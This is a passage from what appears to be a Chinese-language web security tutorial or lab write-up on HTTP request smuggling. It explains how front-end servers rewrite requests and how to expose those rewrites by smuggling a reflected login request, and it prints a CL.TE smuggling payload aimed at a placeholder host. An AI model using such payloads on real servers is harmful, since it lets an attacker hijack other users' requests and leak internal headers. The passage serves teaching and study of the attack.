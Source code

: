 ```plain
```

[![](assets/1704418275-3feca3ffc86dd7c34d12ccc7bedbdcf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155540-7d243996-aa0d-1.png)  
随后刷新页面完成解题：  
[![](assets/1704418275-e81db5ef7e03bb5171d4ecdb0298a753.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155559-884287b0-aa0d-1.png)

### 请求重写

在许多应用程序中前端服务器在将请求转发到后端服务器之前会对请求进行一些重写，通常是通过添加一些额外的请求头，例如：前端服务器可能

-   添加一些攻击头敏感信息
-   添加包含用户 IP 地址的 X-Forwarded-For
-   根据用户的会话令牌确定用户的 ID 并添加标识用户的标头

在某些情况下如果您的走私请求缺少一些通常由前端服务器添加的头，那么后端服务器可能不会以正常方式处理请求，从而导致走私请求无法达到预期的效果，通常有一种简单的方法来检测前端服务器是如何重写请求的，为此您需要执行以下步骤：

-   首先找到一个 POST 请求并是那种可以将请求参数的值回显到应用程序的响应中的包
-   随后尝试随机排列参数，使反射的参数写在消息正文的最后
-   然后将这个请求偷偷发送到后端服务器，后面直接跟着一个普通的请求，您希望显示该请求的重写形式

假设应用程序有一个反映 email 参数值的登录函数：

```plain
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

这将会导致响应包中包含以下内容信息：

```plain
<input id="email" value="wiener@normal-user.net" type="text">
```

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
```
